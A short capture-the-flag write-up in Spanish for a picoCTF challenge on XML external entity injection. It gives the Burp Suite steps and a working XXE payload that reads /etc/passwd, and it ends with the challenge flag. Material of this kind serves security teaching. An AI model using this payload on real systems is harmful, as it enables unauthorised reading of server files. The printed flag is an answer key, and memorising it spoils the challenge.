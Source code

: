 The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
__________
## Hints 
* XML external entity Injection
___________
## Solucion

Utilizando burp, iniciamos intercepción y  le damos click en  abrir el navegador 
Ahi ponemos el link de la pagina que arroja el reto.
A la pagina web le damos clik a los botones que sale y vemos las peticiones que se genera
Vemos el tipo de contenido y es xml. Eso indica una vulnerabilidad de XXE.
Mandamos la petición a Repeater, nos ubicamos ahí y escribimos debajo de <?xml version="1.0" encoding="UTF-8"?>
lo siguiente:
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data><ID>
&xxe;
</ID>

Botón enviar y sale la bandera
picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}
